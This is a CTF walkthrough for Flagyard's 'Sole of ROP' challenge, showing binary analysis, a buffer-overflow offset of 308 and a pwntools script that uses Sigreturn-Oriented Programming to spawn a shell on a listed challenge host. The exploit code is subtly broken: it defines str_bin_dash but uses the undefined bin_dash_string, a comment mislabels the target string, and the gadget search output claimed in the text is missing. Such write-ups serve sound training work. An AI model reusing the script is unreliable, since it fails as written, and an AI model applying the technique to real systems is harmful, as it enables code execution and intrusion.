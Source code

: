 ```yaml
---
title: "Flagyard - Sole of ROP"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
  - CTF
tags:
  - Hacking
  - Walkthrough
  - CTF
  - Flagyard
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Flagyard - Sole of ROP
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Portal:|[Flagyard](https://flagyard.com/)|
|Task:|[Sole of ROP](https://flagyard.com/labs/training-labs/5/challenges/3ef058b5-ab9b-4fda-9413-bc854124ec07)|
|Category:|PWN|

# 01. Description
## Introduction
This challenge, **Sole of ROP**, comes from the Flagyard platform and is a classic example of SROP (Sigreturn Oriented Programming). If you're already familiar with this technique, you should find the task approachable.
{: .text-justify}
Despite the dramatic challenge description:  
> *"Ever tried to solve a Rubik's Cube blindfolded in zero gravity? It's chaotic, disorienting, and utterly thrilling. Swap registers, flip bits, and defy gravity in this cosmic dance of shellcode. May the SIGs be ever in your favor!"*
{: .text-justify}

## Binary Information

### **Checksec Results**
```plaintext
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

### **LDD Results**
```plaintext
ldd ./sole_of_ROP
        not a dynamic executable
```

## Analysis

The challenge boils down to a straightforward SROP problem. Here's a decompiled snippet of the binary’s core functionality (in pseudocode, extracted using Ghidra):
{: .text-justify}
```c
undefined [16] FUN_004000ff(void) {
  long lVar1;
  char *pcVar2;
  char *pcVar3;
  undefined auVar4 [16];
  
  syscall();
  syscall();
  pcVar2 = s_"SOS_SOS_SOS_SOS_00600197;
  pcVar3 = (char *)0x0;
  for (lVar1 = 0x12; lVar1 != 0; lVar1 = lVar1 + -1) {
    *pcVar3 = *pcVar2;
    pcVar2 = pcVar2 + 1;
    pcVar3 = pcVar3 + 1;
  }
  auVar4._8_8_ = pcVar3 + -0x60017c;
  syscall();
  auVar4._0_8_ = 1;
  return auVar4;
}
```

The task is relatively simple. While analyzing, we discovered a buffer overflow vulnerability. By inspecting the stack, it became evident that the overflow happens at offset 308:
{: .text-justify}
```
00:0000│ rsp 0x7fffffffe548 ◂— 0x6161616f62616161 ('aaaboaaa')

pwndbg> cyclic -l aaaboaaa
Finding cyclic pattern of 8 bytes: b'aaaboaaa' (hex: 0x616161626f616161)
Found at offset 308
```

With this information, we confirm the buffer overflow. Given the challenge's title, it strongly hints at SROP. The next step is to search for necessary gadgets.
{: .text-justify}

### Gadget Search

We proceed to search for the required gadgets using `ropper`. The results reveal the critical gadget required for SROP:
{: .text-justify}
```bash
ropper --file=./sole_of_ROP | grep -i pop
[INFO] Load gadgets from cache
[LOAD] loading... 100%
```

From the results, we find the key gadget: `pop rax; ret`. This allows us to set up the syscall environment.

### Exploit Preparation

Using the gadget, we can construct a payload as follows:

1. **Set up RAX with `pop rax`**:
   - Value: `0xf` (for syscall).
2. **Construct the Sigreturn Frame**:
   - Set `rax = 59` for `execve`.
   - Point `rdi` to `/bin/dash` in memory.
   - Set `rsi` and `rdx` to `0x0` (NULL).
   - Set `rip` to the syscall gadget.
3. **Craft the payload**:
   - Buffer overflow up to offset 308.
   - Append the gadgets and the frame.

## Solve in Python
```py
from pwn import *        

context.update(arch='x86_64', os='linux')
context.terminal = ['wt.exe','wsl.exe'] 

HOST="nc 34.252.33.37 32166"
ADDRESS,PORT=HOST.split()[1:]

BINARY_NAME="./sole_of_ROP"
binary = context.binary = ELF(BINARY_NAME, checksec=False)

if args.REMOTE:
    p = remote(ADDRESS,PORT)
else:
    p = process(binary.path)    

length=308

rop=ROP(binary)
syscall=rop.find_gadget(['syscall'])[0]
pop_rax=rop.find_gadget(['pop rax'])[0]
str_bin_dash=next(binary.search(b'/bin/dash'))

frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b            # Set rax to 59 for execve
frame.rdi = bin_dash_string # Set rdi to point to /bin/sh in .bss
frame.rsi = 0x0             # Set rsi to NULL (argv)
frame.rdx = 0x0             # Set rdx to NULL (envp)
frame.rip = syscall         # Set rip to the syscall gadget

payload = length * b"\x02"+p64(pop_rax)+p64(0xf)+p64(syscall)+bytes(frame)

p.sendlineafter(b"Sole?", payload)

p.sendline(b'cat flag*')
FLAG=p.recv()
print (FLAG)
p.interactive()
```
## Conclusion

This was a fun and educational challenge, offering a great opportunity to practice SROP techniques. The exploit demonstrates the power of manipulating syscall frames for achieving code execution.
{: .text-justify}

By carefully analyzing the binary and utilizing tools like `pwndbg` and `ropper`, we were able to construct an effective payload that leverages `SIGRETURN` to execute arbitrary code. Challenges like this reinforce the importance of understanding low-level mechanisms in modern exploitation.
{: .text-justify}